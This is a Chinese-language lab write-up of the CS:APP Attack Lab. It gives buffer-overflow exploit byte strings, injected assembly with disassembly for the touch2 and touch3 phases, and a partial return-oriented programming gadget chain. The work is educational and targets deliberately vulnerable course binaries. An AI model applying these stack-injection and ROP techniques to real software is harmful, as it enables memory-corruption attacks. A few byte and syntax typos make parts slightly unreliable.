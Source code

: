 cookie: 0x 00 00 00 00 59 b9 97 fa

touch1: 0x4017c0

exploit1: 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 c0 17 40 00 00 00 00 00

touch2: 0x4017ec



常用指令

```
./hex2raw < exploit.txt > exploit-raw.txt
run -q < exploit-raw.txt
```

0x7ff95e1f1980

**Phase1-Level2**

getbuf返回时不能返回到test函数，而是要转到touch2函数，level2与level1不同的地方就在于level2不只是单纯的跳转到touch2函数，而是要携带参数cookie一起过去，换句话说在跳转过去之前要先把%rdi的值修改为cookie。

`ret`命令的实际含义是：`pop %rip`，也就是把此时栈中存放的地址弹出作为下一个指令的地址，`%rip`指向的段就会被视作**代码段**来执行，也就是会把`%rip`指向的内存的内容读取为指令来执行。

注入代码inject.s：

```assembly
movq $0x59b997fa, %rdi //把cookie作为参数传给rdi
pushq $0x4017ec		 //把touch2函数的地址压入栈顶
ret					 // pop %rip——把刚刚touch2函数的地址作为下一条指令执行
```

通过`gcc -c `来得到.o文件，再用`objdump -d`来得到指令的机器级表示

```assembly
inject.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   7:   68 ec 17 40 00          pushq  $0x4017ec
   c:   c3                      retq
```



**Phase_Level3**

touch3: 0x4018fa

让getbuf不会到test，而是回到touch3，并且要把

```assembly
movabs $0x6166373939623935, %rcx
movq %rcx,(%rdi)
movq $0x0, %rcx
movq %rcx, $0x8(%rdi)
pushq $0x4018fa		 //把touch3函数的地址压入栈顶
ret					 // pop %rip——把刚刚touch3函数的地址作为下一条指令执行
```

```assembly
Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 b9 35 39 62 39 39    movabs $0x6166373939623935,%rcx
   7:   37 66 61
   a:   48 89 0f                mov    %rcx,(%rdi)
   d:   48 c7 c1 00 00 00 00    mov    $0x0,%rcx
  14:   48 89 4f 08             mov    %rcx,0x8(%rdi)
  18:   68 fa 18 40 00          pushq  $0x4018fa
  1d:   c3                      retq
```

这种写法不是每一次都能够pass，因为touch3中的s的地址是随机的，我们把数据写在原getbuf栈帧的内存区，在运行touch3和hexmatch函数后，内存区很有可能发生重合，也就是说s有可能重写了我们的数据，在最后匹配的时候就会出错，所以可以将我们的cookie写在test栈帧

我们可以找到test函数的栈顶位置（存放cookie的位置）：

`0x5561dca8`

我们的代码就可以写成：

```assembly
movq $0x5561dca8, %rdi
pushq $0x4018fa
ret
```



### Return-Oriented Programming

与第一部分Injected Code Attack相比，rtarget的代码自身的安全性有提高：

+ 栈地址随机化，每一次运行的栈地址都不同
+ 栈段部分的代码被设置为不可执行，即%rip不能指向栈区，否则会segment fault

![image-20221119211828837](https://raw.githubusercontent.com/linengcs/note-img/main/image-20221119211828837.png)

![image-20221119212529104](https://raw.githubusercontent.com/linengcs/note-img/main/image-20221119212529104.png)



Fortunately, clever people have devised strategies for getting useful things done in a program by executing existing code, rather than injecting new code.The most general form of this is referred to as **return-oriented programming (ROP) .**

![image-20221120000349082](https://raw.githubusercontent.com/linengcs/note-img/main/image-20221120000349082.png)

ROP的攻击理念是，利用现成的由编译器汇编而成的代码，经过重新编排连接成一条gadget链，上图解释了如何把栈设置成一系列可以执行的gadgets，既然栈中不能存放可执行代码，那么我们就把栈当作数据段，其中的数据就可以存放现有的代码段的地址，并通过`ret(pop %rip)`，将代码段的地址赋值给`%rip`，让下一条指令指向目标代码段，从而实现我们的目的。

其中每个gadget都是一系列的指令字节，并且最后一个指令都是`ret(0xc3)`。每一个gadget的最后的`ret`执行后都会跳转到下一个gadget的开始。



**Phase4**

phase4要求我们在rtarget里重新实现phase2，即让getbuf不返回到test，而是返回到touch2，并且将cookie作为参数传递过去，phase2中我们的inject code是：

```assembly
movq $0x59b997fa, %rdi 
pushq $0x4017ec		 
ret					 
```

这部分我们不能直接注入这部分代码，而是要在`start_farm`和`end_farm`两个函数之间的代码中找到能实现我们要求的部分。

对于第一句`movq $0x59b997fa, %rdi `，我们肯定找不到这样有具体常数值的，也就是说我们只能把cookie放进栈里当参数传进寄存器，但是我们也找不到`popq %rdi`，也就只能通过别的寄存器来中转，以`%rax`，这里我们的gadget1就确定了：

```assembly
popq %rax
ret
```

即gadget2应该如下：

```assembly
movq %rax, %rdi
ret
```

注意在gadget2的ret部分就直接跳转到touch2



通过查表，`popq %rax`指令对应的字节序为58，通过查找我们找到

![image-20221120104354644](https://raw.githubusercontent.com/linengcs/note-img/main/image-20221120104354644.png)

位于地址$4019ab开始的字节序：`58 90 c3`符合要求，其中0x90表示`nop`可以忽略

`movq %rax, %rdi`对应的字节序为：`48 89 c67，找到：

![image-20221120104737790](https://raw.githubusercontent.com/linengcs/note-img/main/image-20221120104737790.png)

位于地址$4019c5开始的字节序：`48 89 c7 90 c3`符合要求

即最终的栈结构应该为：

![image-20221120110636389](https://raw.githubusercontent.com/linengcs/note-img/main/image-20221120110636389.png)
